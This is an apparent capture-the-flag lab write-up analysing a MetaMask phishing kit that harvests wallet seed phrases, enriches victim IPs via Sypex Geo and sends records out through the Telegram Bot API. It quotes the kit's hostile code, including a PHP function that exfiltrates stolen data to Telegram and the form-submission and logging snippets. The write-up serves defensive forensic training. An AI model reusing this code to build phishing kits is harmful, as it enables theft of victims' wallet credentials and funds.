


# GrabThePhisher — Phishing Kit Static Analysis


## Overview

This write-up documents the static analysis of a cryptocurrency phishing kit supplied in the CyberDefenders **GrabThePhisher** lab. The investigation reconstructed how the kit impersonated a wallet interface, collected a victim's 12-word recovery phrase, enriched the victim's IP address with geolocation data, exfiltrated the resulting record through Telegram, and retained a local copy in a log file.

The files were treated as untrusted evidence and examined inside an isolated Kali Linux virtual machine. No PHP code was executed and the phishing page was not opened in a browser.

> **Safety note:** Bot credentials and chat identifiers are intentionally redacted in this public write-up. The supplied material belongs to a controlled training lab.

## Investigation Objectives

- Inventory the files included in the phishing kit.
- Identify the wallet impersonated by the kit.
- Trace the submitted recovery phrase from the browser to the backend.
- Identify the backend language and collection script.
- Determine how victim IP information was enriched.
- Determine how stolen information was exfiltrated and stored.
- Count the victim records retained by the kit.
- identify the most recent stored record using the file-write behavior.
- Recover attribution clues without treating an alias as a verified identity.

## Analysis Environment

| Item | Details |
|---|---|
| Platform | CyberDefenders |
| Analysis host | Kali Linux virtual machine |
| Analysis type | Static file and source-code inspection |
| Primary utilities | `find`, `grep`, `nl`, `sed`, `awk`, `tail` |
| Execution policy | No PHP execution, no browser launch, no interaction with external services |

## Investigation Workflow

### 1. Evidence Inventory

The extracted evidence was inventoried before opening individual files:

```bash
cd ~/Labs/GrabThePhisher
find . -type f | sort
```

The inventory revealed a web project containing HTML pages, images, style assets, TypeScript files, a PHP handler, and a local log file. Important artifacts included:

| Artifact | Investigative value |
|---|---|
| `metamask/index.html` | Victim-facing phishing interface and client-side submission logic |
| `metamask/metamask.php` | Backend collection, enrichment, exfiltration, and storage logic |
| `log/log.txt` | Previously collected 12-word recovery phrases |
| `.htaccess` | Web-server access configuration for the log directory |
| Images and CSS | Visual assets used to imitate a legitimate service |



### 2. Identifying the Impersonated Wallet

A targeted search was used instead of manually reading more than 22,000 lines of HTML and embedded styles:

```bash
grep -niE "wallet|seed|phrase|recovery|mnemonic|title" \
  ./temp_extract_dir/pankewk/metamask/index.html
```

After locating the relevant area, the surrounding lines were displayed with line numbers:

```bash
nl -ba ./temp_extract_dir/pankewk/metamask/index.html \
  | sed -n '22525,22572p'
```

The page title and visible instructions identified **MetaMask** as the impersonated wallet. The page asked the victim to enter a 12-word seed phrase and labeled the input field `Wallet Seed`.



### 3. Tracing the Submitted Phrase

The client-side JavaScript sent the value of the recovery-phrase field to a PHP endpoint through an HTTP POST request:

```javascript
$.post("../metamask.php", {
  data1: "MetaMask",
  data: $(".import-account__secret-phrase").val()
})
```

This established the first data-flow relationship:

```text
Victim input -> index.html JavaScript -> metamask.php
```

### 4. Backend Collection Logic

The PHP source was inspected as text without execution:

```bash
nl -ba ./temp_extract_dir/pankewk/metamask/metamask.php \
  | sed -n '1,220p'
```

The handler constructed a message containing:

- Wallet name.
- Submitted seed phrase.
- Victim source IP address from `REMOTE_ADDR`.
- Country and city.
- Browser and operating-system information from `HTTP_USER_AGENT`.

The use of `<?php` and the `.php` extension identified **PHP** as the backend language. The main phishing-handler file was `metamask.php`.

### 5. IP Geolocation Enrichment

The backend appended the victim's source IP address to the following API endpoint:

```php
http://api.sypexgeo.net/json/[VICTIM_IP]
```

The returned JSON was decoded and the country and city values were extracted. This identified **Sypex Geo** as the service used for IP geolocation enrichment.

The service did not provide the full device profile. The browser and operating-system information came separately from the HTTP `User-Agent` header.

### 6. Telegram Exfiltration and Local Storage

The kit defined a function that constructed a Telegram Bot API request. Sensitive values are redacted below:

```php
function sendTel($message) {
    $id = "[REDACTED_CHAT_ID]";
    $token = "[REDACTED_BOT_TOKEN]";
    $url = "https://api.telegram.org/bot" . $token
         . "/sendMessage?chat_id=" . $id
         . "&text=" . urlencode($message);
    file_get_contents($url);
}
```

Telegram was therefore the exfiltration medium. The same submitted phrase was also appended locally:

```php
file_put_contents(
    $_SERVER['DOCUMENT_ROOT'] . '/log/log.txt',
    $text,
    FILE_APPEND
);
```

`FILE_APPEND` is significant because it preserves existing records and adds each newly submitted phrase to the end of the file.

### 7. Stored Victim Records

The local log was inspected with line numbers:

```bash
nl -ba ./temp_extract_dir/pankewk/log/log.txt
```

It contained three non-empty lines, and each line contained a complete 12-word recovery phrase. The record count can also be validated with:

```bash
awk 'NF {count++} END {print count}' \
  ./temp_extract_dir/pankewk/log/log.txt
```

Because the PHP handler used `FILE_APPEND`, the final line represented the most recently stored record in the supplied evidence:

```bash
tail -n 1 ./temp_extract_dir/pankewk/log/log.txt
```


## Reconstructed Data Flow


1. The victim visits a page that imitates the MetaMask wallet.
2. The page asks the victim to submit a 12-word seed phrase.
3. JavaScript posts the supplied phrase to `metamask.php`.
4. The PHP handler reads the victim's IP address and `User-Agent`.
5. Sypex Geo returns the country and city associated with the IP address.
6. The assembled record is sent through the Telegram Bot API.
7. The recovery phrase is appended to `log/log.txt` as a local backup.

## Findings

| Finding | Result |
|---|---|
| Impersonated wallet | MetaMask |
| Backend handler | `metamask.php` |
| Backend language | PHP |
| IP enrichment service | Sypex Geo |
| Stored recovery-phrase records | 3 |
| Exfiltration medium | Telegram Bot API |
| Local storage | `log/log.txt` |
| Developer clue | Alias embedded in a source-code comment |
| Sensitive Telegram values | Recovered during analysis; redacted from public documentation |

## Indicators and Artifacts

| Type | Value |
|---|---|
| External service | `api.sypexgeo.net` |
| Exfiltration API | `api.telegram.org` |
| Phishing page | `metamask/index.html` |
| Collection script | `metamask/metamask.php` |
| Local collection log | `log/log.txt` |
| Sensitive form field | `.import-account__secret-phrase` |

## MITRE ATT&CK Mapping

| Tactic | Technique | Evidence |
|---|---|---|
| Credential Access | `T1056.003 - Input Capture: Web Portal Capture` | The fake wallet page collected a submitted recovery phrase. |
| Discovery | `T1614 - System Location Discovery` | The kit used an online IP-geolocation service to infer the victim's country and city. |
| Collection | `T1005 - Data from Local System` | Captured phrases were retained in a local server-side log. |
| Exfiltration | `T1567.004 - Exfiltration Over Web Service: Exfiltration Over Webhook` | The handler sent collected data through the Telegram Bot API. |

> ATT&CK mappings describe observed behavior at a high level. The exact applicability may depend on how the phishing infrastructure was deployed and operated.

## Detection Opportunities

- Alert on web applications sending requests to `api.telegram.org/bot*/sendMessage`.
- Monitor newly deployed PHP files that read both `$_POST` data and `REMOTE_ADDR`.
- Detect server-side scripts writing submitted credentials or recovery phrases into web-accessible log directories.
- Search proxy and DNS logs for unexpected access to IP-geolocation APIs from public web servers.
- Detect pages that request wallet seed phrases outside approved wallet domains.
- Block access to exposed log directories and prevent `.txt` files containing sensitive records from being served publicly.
- Scan web roots for embedded Telegram bot tokens, chat identifiers, and copied wallet-brand assets.

## Response Recommendations

1. Take the phishing site offline and preserve a forensic copy of the hosting account.
2. Revoke exposed Telegram bot credentials through an authorized process.
3. Notify affected wallet providers and abuse teams.
4. Identify and notify victims through approved legal and incident-response channels.
5. Treat every submitted recovery phrase as compromised and move affected assets to newly generated wallets.
6. Preserve web-server, hosting, DNS, access, and authentication logs.
7. Investigate related domains, certificates, IP addresses, and reused source-code fingerprints.
8. Avoid contacting the actor or interacting with the bot without explicit authorization.

## Attribution Limitation

The source code contained a developer-style alias. This is an attribution clue, not proof of a real-world identity. Reliable attribution requires corroboration through independent evidence such as infrastructure reuse, provider records, access logs, code similarity, operational-security mistakes, payment records, or lawfully acquired device evidence.

## Lessons Learned

- Inventory evidence before examining individual files.
- Use broad searches to locate relevant code, then narrow the output to preserve context.
- Trace data from the victim-facing form to the backend handler, enrichment service, exfiltration channel, and storage location.
- Distinguish data collection from data enrichment and exfiltration.
- Treat hard-coded tokens and identifiers as sensitive even in training material.
- Separate a developer alias from a confirmed person or threat-group identity.

## Full Report

- [Download the complete investigation report](./GrabThePhisher-Static-Analysis-Report.pdf)

---

**Author:** Alaa Zahra  
**Track:** SOC Analyst and Digital Forensics  
**Platform:** CyberDefenders
